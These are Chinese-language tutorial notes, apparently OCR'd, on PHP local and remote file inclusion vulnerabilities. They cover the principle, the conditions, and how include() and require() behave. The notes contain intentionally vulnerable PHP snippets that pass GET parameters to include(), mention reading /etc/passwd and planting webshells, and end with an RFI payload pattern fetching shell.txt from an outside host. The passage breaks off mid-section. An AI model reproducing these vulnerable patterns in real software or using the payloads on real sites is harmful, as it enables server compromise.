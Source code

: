 	12.利用任意代码执行漏洞
	{
		
	}
	13.利用任意命令执行漏洞
	{
		
	}
}



#文件包含
##原理：
	文件包含漏洞是“代码注入”的一种。
	其原理就是注入一段用户能控制的脚本或代码，并让服务端执行。
	“代码注入”的典型代表就是文件包含。
	文件包含漏洞可能出现在JSP、PHP、ASP等语言中，原理都是一样的，本文只介绍PHP文件包含漏洞。
	
##特点：
	包含即执行,有时也包括文件内容的读取

	
##用途：
	本地文件包含漏洞可以查看系统任意文件内容，如果具备一些条件，也可以执行命令
	/etc/password
	phpinfo
	一句话
	大马
	cmdshell
	
##利用条件：
	1. Web应用采用include()等文件包含函数通过动态变量的方式引入需要包含的文件;
	2. 用户能够控制该动态变量的值

	
	文件包含的函数
	{
		include():当使用该函数包含文件时，只有代码执行到include()函数时才将文件包含进来，发生错误时只给出一个警告，继续向下执行。
		include_once():功能和include()相同，区别在于当重复调用同一文件时，程序只调用一次。
		require():
			1.require()与include()的区别在于require()执行如果发生错误，函数会输出错误信息，并终止脚本的运行。
			2.使用require()函数包含文件时，只要程序一执行，立即调用文件，而include()只有程序执行到该函数时才调用。
			3.require() 无论如何都会包含文件，而include() 可以有选择地包含：
		require_once():它的功能与require()相同，区别在于当重复调用同一文件时，程序只调用一次。
	}
	
	原理演示
	{
		<?php 
			$filename=$_GET['filename'];
			include($filename);
		?>			
	}
	
	文件包含类型总结
	{
		1.本地文件包含（LFI）
		{
			包含用户上传的文件，执行命令，读写文件，获取webshell。
			如果用户上传的文件内容中包含PHP代码，那么这些代码被文件包含函数加载后将会被执行。
			但能否攻击成功，取决于上传功能的设计，比如需要知道上传文件存放的物理路径，还需要上传的文件有执行权限。
			<?php include("inc/" . $_GET['file']); ?>
			<?php include("inc/" . $_GET['file'] . ".htm"); ?>
		}
		2.远程文件包含（RFI）
		{
			?file=[http|https|ftp]://example.com/shell.txt
			需要allow_url_fopen和allow_url_include为ON